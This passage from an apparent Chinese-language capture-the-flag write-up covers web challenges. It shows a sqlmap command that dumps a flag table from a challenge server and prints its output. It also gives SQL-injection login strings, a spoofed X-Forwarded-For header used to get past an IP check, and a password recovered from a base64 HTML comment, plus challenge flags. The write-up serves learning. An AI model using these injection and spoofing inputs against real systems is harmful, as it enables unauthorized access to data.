 ```sql

...

> sqlmap -u "http://47.95.208.167:10005/?mod=read&id=1" -p "id" -v 3 -D "web5" -T "flag" -C "flag" --dump

Database: web5
Table: flag
[1 entry]
+----------------------------------------+
| flag                                   |
+----------------------------------------+
| flag{320dbb1c03cdaaf29d16f9d653c88bcb} |
+----------------------------------------+

```

## web6 XFF、F12

![](/assets/images/move/1551618812994-0b603a6f-4f92-4202-895e-e6802019c1f9.png)

提交`user=admin' or '1'='1`、`pass=' or '1'='1`后回显：IP禁止访问，请联系本地管理员登陆，IP已被记录.

猜想`X-Forward-For: 127.0.0.1`，这里通过Firefox插件X-Forwarded-For Header直接修改。

提交`user=admin&pass=admin`/`user=amdin&pass=1`后回显：Invalid credentials! Please try again!

**F12**查看源代码在5023行：`<!-- dGVzdDEyMw== -->`。

base64.decode后得到密码`test123`。

登陆后回显：`The flag is: 85ff2ee4171396724bae20c0bd851f6b`.



## web7 吃个小饼干吗？

吃个小饼干吗？
